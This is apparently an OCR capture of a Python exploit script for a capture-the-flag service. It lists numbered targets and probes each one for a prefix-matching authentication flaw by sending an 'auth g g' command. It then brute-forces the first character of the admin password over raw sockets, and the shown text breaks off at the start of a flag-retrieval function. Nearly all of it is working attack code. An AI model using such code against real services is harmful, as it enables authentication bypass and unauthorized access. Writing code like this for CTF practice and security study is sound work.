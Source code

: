 ```python3
TARGETS = [2, 6, 10, 14, 22, 26, 30, 34, 38, 42, 46, 50, 54, 58, 62]

class Colors:
    GREEN = '\033[92m'
    RED = '\033[91m'
    YELLOW = '\033[93m'
    BLUE = '\033[94m'
    END = '\033[0m'

def check_vulnerable(ip, port):
    """Check if target is vulnerable to prefix attack"""
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(3)
        sock.connect((ip, port))
        
        # Read banner
        sock.recv(4096)
        
        # Test vulnerability
        sock.send(b"auth g g\n")
        time.sleep(0.3)
        response = sock.recv(4096).decode()
        
        sock.close()
        
        return "Authenticated as" in response
    except:
        return False

def brute_force_first_char(ip, port):
    """Brute force the first character of the password"""
    # All possible characters
    chars = string.ascii_letters + string.digits + "{}_-!@#$%^&*()"
    
    for char in chars:
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(3)
            sock.connect((ip, port))
            
            # Read banner
            sock.recv(4096)
            
            # Try auth with single character
            sock.send(f"auth _ {char}\n".encode())
            time.sleep(0.3)
            response = sock.recv(4096).decode()
            
            if "Authenticated as" in response and "_admin" in response:
                sock.close()
                return char
            
            sock.close()
            
        except:
            continue
    
    return None

def get_flag_with_char(ip, port, first_char):
    """Get flag using the discovered first character"""
    try:
```
